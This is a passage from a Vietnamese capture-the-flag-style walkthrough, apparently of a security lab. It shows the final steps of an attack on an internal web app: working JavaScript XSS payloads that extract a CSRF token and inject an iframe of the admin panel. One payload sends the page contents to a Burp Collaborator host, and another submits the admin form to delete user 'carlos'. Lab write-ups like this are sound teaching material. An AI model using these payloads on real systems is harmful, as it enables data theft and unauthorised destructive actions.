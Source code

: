 Điều này có nghĩa là chúng ta có thể chuyển hướng nạn nhân đến trang đăng nhập nội bộ và thực thi các tập lệnh từ đó, có thể bypass qua CORS.

##### Bước thứ ba : Truy xuất Admin Panel

Đoạn code này sẽ cho phép chúng ta truy xuất vào thử panel của admin
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}
function fetchUrl(url, collaboratorURL){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><iframe src=/admin onload="new Image().src=\''+collaboratorURL+'?code=\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');
  }
  ))
}
fetchUrl("http://192.168.0.212:8080", "http://bbq6iwl2yh0xqnyyqkm0r8w9g0mqaf.burpcollaborator.net");
</script>

```


##### Bước cuối 

Dựa vào biểu mẫu trả về ở bước 3 chúng ta thấy chức năng delete của admin, vây nên chúng ta viết payload như sau để thực thi biểu mẫu delete và xóa username = carlos
```
<script>
function xss(url, text, vector) {
  location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url){
  fetch(url).then(r=>r.text().then(text=>
  {
    xss(url, text, '"><iframe src=/admin onload="var f=this.contentWindow.document.forms[0];if(f.username)f.username.value=\'carlos\',f.submit()">');
  }
  ))
}

fetchUrl("http://192.168.0.212:8080");
</script>

```

